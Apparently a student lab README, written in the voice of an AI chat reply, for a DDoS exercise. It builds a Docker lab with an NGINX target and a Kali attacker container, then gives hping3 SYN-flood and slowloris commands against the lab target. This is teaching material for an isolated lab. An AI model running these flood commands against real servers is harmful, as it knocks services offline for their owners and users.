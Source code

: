 # Cybersecurity Fundamentals Hands-On Lab Notes - DDoS Exercise
For PUO Students only. This testing and notes maybe vary than your institution. Understood! 

Below is a `docker-compose.yml` file to set up your environment for DDoS testing. It includes a target server (NGINX) and an attacker container (Kali Linux with pre-installed DDoS tools). Once you run the `docker-compose` command, it will automatically build and configure everything.

---

### **Directory Structure**
Before creating the `docker-compose.yml`, prepare the following directory structure:

```
ddos-lab/
├── docker-compose.yml
├── target/
│   ├── Dockerfile
│   └── index.html
└── attacker/
    └── Dockerfile
```

---

### **1. `docker-compose.yml`**
This file will define both the target and attacker containers and their configurations.

````artifact
id: DockerComposeDDoS
name: Docker Compose for DDoS Lab
type: code.yaml
content: |-
  version: '3.8'

  services:
    target:
      build:
        context: ./target
      ports:
        - "8080:80"
      networks:
        - ddos-net

    attacker:
      build:
        context: ./attacker
      stdin_open: true
      tty: true
      networks:
        - ddos-net

  networks:
    ddos-net:
      driver: bridge
````

---

### **2. Target Server (`target/Dockerfile`)**
This Dockerfile sets up an NGINX web server as the DDoS target.

````artifact
id: TargetServerDockerfile
name: Target Server Dockerfile
type: code.dockerfile
content: |-
  FROM nginx:latest
  COPY ./index.html /usr/share/nginx/html/index.html
  EXPOSE 80
````

---

### **3. Target Server HTML (`target/index.html`)**
This is a simple HTML file to simulate the web application.

````artifact
id: TargetServerIndex
name: Target Server Index
type: code.html
content: |-
  <!DOCTYPE html>
  <html>
  <head>
    <title>DDoS Test Target</title>
  </head>
  <body>
    <h1>Welcome to the DDoS Test Target</h1>
    <p>This is a simulated target for DDoS testing.</p>
  </body>
  </html>
````

---

### **4. Attacker Container (`attacker/Dockerfile`)**
This Dockerfile sets up a Kali Linux container with DDoS tools like `hping3` and `slowloris`.

````artifact
id: AttackerDockerfile
name: Attacker Dockerfile
type: code.dockerfile
content: |-
  FROM kalilinux/kali-rolling:latest
  RUN apt update && apt install -y hping3 slowloris
  CMD ["/bin/bash"]
````

---

### **5. Build and Run**
1. Navigate to the `ddos-lab` directory:
   ```bash
   cd ddos-lab
   ```

2. Build and start the environment using `docker-compose`:
   ```bash
   docker-compose up --build
   ```

3. Verify the services:
   - The target server will be available at `http://localhost:8080`.
   - The attacker container will be running in interactive mode. You can attach to it using:
     ```bash
     docker exec -it ddos-lab_attacker_1 bash
     ```

---

### **6. Simulate the DDoS Attack**
Once the environment is running:
1. **Inside the attacker container**, use tools like `hping3` or `slowloris`:
   - Example with `hping3`:
     ```bash
     hping3 -S -p 8080 --flood <target-ip>
     ```
   - Example with `slowloris`:
     ```bash
     slowloris <target-ip>
     ```

2. Monitor the traffic on the target server at `http://localhost:8080`.

---

### **7. Stop the Environment**
To stop the environment, use:
```bash
docker-compose down
```

---

This setup is self-contained and easy to deploy using `docker-compose`. Let me know if you'd like additional monitoring tools or enhancements!
